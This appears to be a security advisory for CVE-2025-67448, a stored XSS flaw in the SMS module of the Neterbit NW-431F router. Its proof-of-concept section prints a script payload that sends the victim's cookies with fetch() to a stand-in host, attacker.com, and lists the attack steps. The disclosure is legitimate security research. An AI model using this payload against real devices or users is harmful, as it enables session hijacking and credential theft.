


# CVE-2025-67448: Stored Cross Site Scripting (XSS)

## Information
**Description:** Stored Cross Site Scripting (XSS) in Neterbit NW-431F
**Versions Affected:** Neterbit NW-431F Router - Software Version: NW-431F-20241014-IR03 (fixed version isn't available) 
**Researcher:** Ali Abdollahi (https://t.me/the_aliabdollahi @The_AliAbdollahi)  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2025-67448  

## Proof-of-Concept Exploit
### Description
The SMS module in Neterbit NW-431F Router 20241014-IR03 and before is
vulnerable to stored XSS. The application does not properly sanitize
user input in SMS messages before storing and displaying them. An
attacker can send an SMS containing a malicious XSS payload, which will
be executed in the context of the victim's browser when the message is
viewed.

### Proof of Concept (PoC):

1- attacker Compose and send an SMS with a malicious payload, such as:
```
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

2- The victim views the malicious SMS in their inbox.
3- The XSS payload executes, sending the victim's cookies to the attacker's server.


### Screenshot

